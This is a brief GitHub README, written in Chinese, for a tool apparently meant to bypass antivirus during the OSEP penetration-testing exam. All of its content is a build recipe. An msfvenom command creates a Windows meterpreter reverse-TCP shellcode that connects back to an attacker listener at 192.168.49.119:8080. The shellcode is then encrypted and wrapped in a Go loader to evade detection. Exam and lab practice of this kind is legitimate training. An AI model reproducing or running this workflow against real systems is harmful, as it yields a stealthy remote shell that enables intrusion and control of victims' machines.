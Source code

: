 # OSEP_Bypass_AV

## 简介

本项目主要用户 OSEP 考试中用来 bypass 杀软


```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.49.119 LPORT=8080 -f raw -o shellcode.bin
go build encrypter.go
encrypter.exe -i shellcode.bin
go build loader.go

loader.exe 就是 可执行程序

```
